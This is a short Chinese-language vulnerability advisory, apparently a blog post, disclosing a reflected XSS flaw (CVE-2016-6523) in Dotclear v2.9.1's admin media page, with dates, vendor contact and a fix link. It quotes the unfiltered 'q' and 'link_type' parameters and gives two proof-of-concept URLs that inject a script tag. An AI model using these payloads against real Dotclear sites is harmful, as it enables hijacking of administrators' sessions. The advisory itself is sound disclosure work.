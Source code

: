```yaml
---
layout: post
title: Dotclear v2.9.1反射型xss [CVE-2016-6523]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

CVE ID: CVE-2016-6523

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

Dotclear v2.9.1 有一个反射型xss

/admin/media.php

line 34 $link_type = !empty($_REQUEST['link_type']) ? $_REQUEST['link_type'] : null;

line 62 $q = isset($_REQUEST['q']) ? $_REQUEST['q'] : null;

link_type 跟 q 参数缺少安全过滤

**PoC:**

http://172.16.146.130/dotclear/admin/media.php?q=77777%3C%2Fspan%3E%3Cscript%3Ealert(1)%3C/script%3E&popup=0&select=0&plugin_id=&post_id=&link_type=

http://172.16.146.130/dotclear/admin/media.php?q=77777&popup=0&select=0&plugin_id=&post_id=&link_type=8888%22%3E%3Cscript%3Ealert(1)%3C/script%3E

**修复方案:**

https://hg.dotclear.org/dotclear/rev/40d0207e520d
·